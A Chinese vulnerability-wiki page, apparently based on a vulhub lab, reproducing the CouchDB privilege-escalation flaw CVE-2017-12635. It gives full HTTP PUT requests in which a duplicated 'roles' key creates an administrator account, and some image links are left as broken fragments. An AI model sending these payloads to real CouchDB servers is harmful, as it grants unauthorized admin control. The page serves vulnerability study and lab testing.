



# （CVE-2017-12635）Couchdb 垂直权限绕过漏洞

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：用户创建接口可达；Erlang与JavaScript处理重复JSON键不同；分支版本待核
- 证据范围：有普通roles写入403对照和重复roles创建管理员流程；独立根因应保留

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 图片链接后附重复路径残片
- 精确受影响与修复版本需官方核验
- 说明是无需已有账号创建管理员，还是既有用户提权
- 创建管理员是持久化变更，未说明清理

### 操作风险与资料使用

- 含落盘脚本或账户创建：会留下持久状态。记录本次生成的路径或账户，测试后清理这些对象并撤销关联令牌；不要删除既有业务对象。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

一、漏洞简介
------------

在2017年11月15日，CVE-2017-12635和CVE-2017-12636披露，CVE-2017-12635是由于Erlang和JavaScript对JSON解析方式的不同，导致语句执行产生差异性导致的。这个漏洞可以让任意用户创建管理员，属于垂直权限绕过漏洞。

二、漏洞影响
------------

小于 1.7.0 以及 小于 2.1.1

三、复现过程
------------

### 环境搭建

    docker-compose build
    docker-compose up -d

环境启动后，访问`http://www.0-sec.org:5984/_utils/`即可看到一个web页面，说明Couchdb已成功启动。但我们不知道密码，无法登陆。

### 漏洞复现

首先，发送如下数据包：

    PUT /_users/org.couchdb.user:vulhub HTTP/1.1
    Host: www.0-sec.org:5984
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/json
    Content-Length: 90

    {
      "type": "user",
      "name": "vulhub",
      "roles": ["_admin"],
      "password": "vulhub"
    }

可见，返回403错误：`{"error":"forbidden","reason":"Only _admin may set roles"}`，只有管理员才能设置Role角色：

Couchdb垂直权限绕过漏洞/media/rId26.png)

发送包含两个roles的数据包，即可绕过限制：

    PUT /_users/org.couchdb.user:vulhub HTTP/1.1
    Host: www.0-sec.org:5984
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/json
    Content-Length: 108

    {
      "type": "user",
      "name": "vulhub",
      "roles": ["_admin"],
      "roles": [],
      "password": "vulhub"
    }

成功创建管理员，账户密码均为`vulhub`：

Couchdb垂直权限绕过漏洞/media/rId27.png)

再次访问`http://www.0-sec.org:5984/_utils/`，输入账户密码`vulhub`，可以成功登录：

Couchdb垂直权限绕过漏洞/media/rId28.png)

参考链接
--------

> https://vulhub.org/\#/environments/couchdb/CVE-2017-12635/
